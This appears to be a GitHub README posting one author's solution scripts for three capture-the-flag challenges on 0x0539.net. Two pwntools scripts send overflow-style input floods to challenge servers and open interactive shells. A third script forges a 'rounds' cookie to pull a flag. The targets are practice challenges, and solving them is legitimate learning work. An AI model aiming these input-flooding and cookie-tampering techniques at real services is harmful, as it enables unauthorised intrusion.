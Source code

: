 <h1 align="center">
	<img src="https://lh3.googleusercontent.com/proxy/CpoUd8Vc7hVO5iuIL7QkWnlU5yt5dADWL_4vnIxil9CLnk9JokqiAJpoQcqe5jJW6doC-BgT-yi8" width="300px"><br>
    0x0539 - Here I will post my solutions/exploits for some of the challenges on 0x0539.net
</h1>
<p align="center">
	This repository will contain my exploits for solving some challenges on 0x0539.net. Please don't steal my code, and claim it as your own.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
</p>

## SIGSEGV
```py
from pwn import *


# SIGSEGV
# Date: 08/21/21
# Made by 0x1CA3


class Pwn():
	def __init__(self, host, port):
		self.host = host
		self.port = port

	def exploit(self):
		payload = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
		connection = remote(self.host, self.port)
		connection.sendline(payload)
		connection.interactive()

def main():
	host = "challenges.0x0539.net"
	port = 7071
	pwn = Pwn(host, port)
	pwn.exploit()

if __name__ == "__main__":
	try:
		main()
	except:
		print("[!] Error running exploit! [!]")
```

## Inizializzato Pizzaria
```py
from pwn import *


# Inizializzato Pizzaria
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host, port):
        self.host = host
        self.port = port

    def exploit(self):
        payload = b'444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444'
        connection = remote(self.host, self.port)
        connection.sendline(b'3')
        
        connection.sendline(payload)
        connection.sendline(payload)
        connection.sendline(payload)
        connection.sendline(payload)
        
        connection.sendline(b'4')
        connection.interactive()

def main():
    host = "challenges.0x0539.net"
    port = 3001
    Pwn(host, port).exploit()

if __name__ == "__main__":
    main()
```

## Lucky Feeling
```py
import requests


# Lucky Feeling
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host):
        self.host = host
    
    def exploit(self):
        s = requests.Session()
        site_cookies = {"rounds": "999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999"}
        
        a = s.get(self.host, cookies=site_cookies)
        
        for i in range(99):
            a = s.post(self.host, cookies=site_cookies, data={"guess": ""})

        print(""" 
        [+] Flag output [+]
        -------------------""")
        print(s.post(self.host, cookies=site_cookies, data={"guess": ""}).text)

def main():
    host = "http://challenges.0x0539.net:3002/"
    Pwn(host).exploit()
main()

if __name__ == "__main__":
    main()
```
## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
